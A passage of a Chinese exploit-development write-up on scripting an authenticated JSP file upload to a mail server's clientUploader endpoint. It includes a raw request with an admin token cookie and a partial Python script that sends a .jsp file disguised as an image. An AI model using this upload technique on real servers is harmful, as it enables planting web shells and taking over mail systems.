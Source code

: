其中，`------WebKitFormBoundary1abcdefghijklmno`为分隔符，`------WebKitFormBoundary1abcdefghijklmno--`为结束符

如果未设置该属性，上传文件的操作会会失败，返回结果如下：

```
<html><head></head><body onload="window.parent._uploadManager.loaded(20000001,'null');">The request does not upload a file</body></html>
```

在Python脚本的编写过程中，如果直接在Headers中加入属性：`Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1abcdefghijklmno`，示例代码如下：

```
headers["Content-Type"]="multipart/form-data; boundary=----WebKitFormBoundary1abcdefghijklmno"
```

这样会产生bug，无法成功

此时的数据包格式如下：

```
POST /service/extension/clientUploader/upload HTTP/1.1
Host: mail.xx.com
Proxy-Connection: keep-alive
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary1abcdefghijklmno
Content-Length: 400
Cookie:ZM_ADMIN_AUTH_TOKEN=0_530bf417d0f3e55ed628e4671e44b1dea4652bab_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313535343835323934303131393b61646d696e3d313a313b
Upgrade-Insecure-Requests:1

------3c4bc2fbc2368a87e5def7b234fd126b
Content-Disposition:form-data;name="file";filename="test.jsp"
Content-Type: image/jpeg

test12345
------3c4bc2fbc2368a87e5def7b234fd126b--
```

发现分隔符和结束符为重新随机生成的数值，而不是我们在请求头(Request Headers)中设置的`----WebKitFormBoundary1abcdefghijklmno`

所以Python代码需要做修改，这里给出一种解决方法：使用`requests_toolbelt`库

代码示例：

```
    fileContent = 0;
    path = input("[*] Input the path of the file:")
    with open(path,'r') as f:
        fileContent = f.read()
    filename = path
    print("[*] filepath:"+path)
    print("[*] filedata:"+fileContent)

    headers = {
    "Content-Type":"application/xml"
    }   
    headers["Content-Type"]="multipart/form-data; boundary=----WebKitFormBoundary1abcdefghijklmno"
    headers["Cookie"]="ZM_ADMIN_AUTH_TOKEN="+token+";"

    m = MultipartEncoder(fields={
    'filename1':(None,"test",None),
    'clientFile':(filename,fileContent,"image/jpeg"),
```